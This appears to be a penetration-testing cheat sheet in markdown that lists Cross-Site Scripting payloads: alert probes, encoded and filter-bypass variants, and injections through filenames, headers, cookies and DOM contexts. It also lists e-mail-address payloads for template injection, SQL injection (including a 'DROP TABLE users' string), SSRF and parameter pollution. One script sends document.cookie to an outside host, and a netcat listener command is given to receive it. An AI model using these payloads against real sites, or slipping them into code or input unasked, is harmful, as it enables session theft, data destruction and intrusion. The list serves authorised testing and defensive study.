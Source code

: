 ```yaml
---
title : "XSS"
pre : '<i class="fab fa-js"></i> '
description : "Cross-Site-Scripting payloads."
date : 2021-12-07T17:10:24+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Cross-Site Scripting (XSS)

## Test Characters

```plain
"
;
<
>
```

## Generic

```plain
<Svg/Onload=1
c5obc'+alert(1)+'p7yd5
<svg onload=alert(1)>
<script>alert(1)</script>
<</p>iframe src=javascript:alert()//
<script>alert('PoC')</script>
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)">
<scr ipt>ale rt (1) </scr ipt>
%3cscript>alert('PoC')</script>
%25%33%63script>alert('PoC')</script>
&#x3c;script>alert('PoC')</script>
</script><script>alert(1)</script>
["</script><script>alert(1)</script>"]
<a href="x">test</a>
<img src=x />
<img src=x onerror="alert(1);" />
&#x3c;script>alert(1)&#x3c;/script>
<img src=x onerror="alert(document.cookie);" />
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><
<a href="javascript:alert('PoC')">Click me</a>
<p><script>alert(1)</script></p>
<i nput type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />
draggable=true ondragstart="alert(1)
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<</div>script</div>>alert()<</div>/script</div>>
"><a href=j<TAB><NEWLINE><TAB><NEWLINE><TAB><NEWLINE>avascript:confirm("payload")>XSSs</a>
```

### Content injection

In the example below, set up a NetCat listener on port 80 `sudo nc -nlvp 80`. This listener will receive a connection on success.

```plain
<iframe src=http://10.10.10.10/report height="O" width="O"></iframe>
```

### Cookie Stealing

In the example below, set up a NetCat listener on port 80 `sudo nc -nlvp 80`. This listener will receive a connection on success.

```plain
<script>new Image().src="http://10.10.10.10/nothinghere.jpg?output="+document.cookie;</script>
```

### WAF bypass

```plain
%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a
```

### XSS in filename

```plain
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

### Host header

```plain
"> <script>alert(1)</script>
```

### Chrome and FireFox

Standard

```plain
<script>alert(1)</script>
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<iframe src="javascript:alert(1)">
<script src="data:text/javascript,alert(1)"></script>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

onclick

```plain
<a onclick="alert(1)">test</a>
<body onclick="alert(1)">test</body>
<textarea onclick="alert(1)">test</textarea>
<p onclick="alert(1)">test</p>
<svg onclick="alert(1)">test</svg>
<iframe onclick="alert(1)">test</iframe>
```

onmouseover

```plain
<a onmouseover="alert(1)">test</a>
<body onmouseover="alert(1)">test</body>
<p onmouseover="alert(1)">test</p>
<svg onmouseover="alert(1)">test</svg>
```

onload

```plain
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)></iframe>
```

onerror

```plain
<image src/onerror=alert(1)>
<img src/onerror=alert(1)>
<script onerror=alert(1) src=/></script>
<body onerror=alert(1) onload=/>
```

### DOM-based

```plain
javascript:alert(¨DOM")
"><script>alert(document.cookie)</script>
alert(1)
alert(document.cookie)
#<script>alert('xss')</script>
```

### User-agent

```plain
</SCript><svG/onLoad=alert(document.domain)>
```

### XSS in cookie header

```plain
Cookie: PHPSESSID=hd<script>alert(document.cookie)</script>np5
```

## E-mail recipient payloads

### XSS

```plain
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### Template injection

```plain
"<= 7 * 7 %>"@example.com
test+(${{7*7}} )@example.com
```

### SQL Injection

```plain
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

### SSRF

```plain
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

### Parameter pollution

```plain
victim&email=attacker@example.com
```

## URL List

- [Portswigger.net Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
